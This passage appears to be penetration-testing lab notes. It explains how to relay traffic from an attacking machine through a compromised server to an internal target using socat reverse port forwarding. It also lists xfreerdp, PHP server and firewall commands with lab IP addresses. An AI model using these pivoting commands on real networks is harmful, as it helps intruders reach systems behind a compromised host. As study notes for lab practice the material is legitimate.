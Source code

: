 This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:

`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`

Example:
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

Process:

- The request goes to 127.0.0.1:8000

- Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001

- Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

- The process is then reversed when the target sends the response:

- The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.

- Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.




### xfreerdp with shared drive, clipboard, and dynamic resolution 

xfreerdp /v:10.200.84.150 /u:<user> /p:<password> +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share




### PHP Server

`php -S 0.0.0.0:20777 &>/dev/null &`





### Open Firewall Ports on CentOS

`firewall-cmd --zone=public --add-port PORT/tcp`

### Opened Ports
```
20666
20777
```
